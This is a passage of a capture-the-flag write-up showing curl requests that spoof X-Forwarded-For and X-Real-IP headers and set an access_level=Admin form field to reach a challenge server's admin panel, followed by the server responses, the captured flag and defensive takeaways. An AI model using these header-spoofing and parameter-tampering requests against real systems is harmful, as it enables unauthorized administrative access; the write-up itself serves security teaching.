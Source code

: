         ```bash
          curl -X POST 'http://54.72.82.22:8085/' \
            -H 'Content-Type: application/x-www-form-urlencoded' \
            -H 'X-Forwarded-For: 127.0.0.1' \
            --data 'username=attacker&access_level=Admin'


## Response
 <h2>Hello, attacker</h2>

<p>Access level: Admin</p>
<p><a href="/admin">Go to admin panel</a></p>

### 5. Second curl Request — Accessing Admin Panel
The response revealed an /admin endpoint. Sent another request with both spoofed headers:



    ```bash
      curl -X GET 'http://54.72.82.22:8085/admin' \
        -H 'X-Forwarded-For: 127.0.0.1' \
        -H 'X-Real-IP: 127.0.0.1'

## Response
  <h3>Welcome, admin!</h3>
  <p>Flag: safctf{c0f1ec1fccb2de4a03031037251f21a7}</p>


### Vulnerability Analysis
Critical Security Flaw: The application trusted client-supplied headers for authentication decisions.

## Specific Issues:

-Server used X-Forwarded-For and X-Real-IP headers to verify internal/trusted IPs.  
-Spoofing headers to 127.0.0.1 bypassed access controls.  
-access_level parameter was vulnerable to direct manipulation.  
-Client-side restrictions provided a false sense of security.  

### Flag
  safctf{c0f1ec1fccb2de4a03031037251f21a7}

### Key Takeaways

-Never trust client-supplied headers for security decisions.  

-Client-side restrictions are easily bypassed and should not be relied upon for access control.  

-Always validate authentication and authorization on the server side.  

-IP-based authentication can be vulnerable to header injection attacks.   

-Security through obscurity (hidden admin endpoints) is not effective protection.  
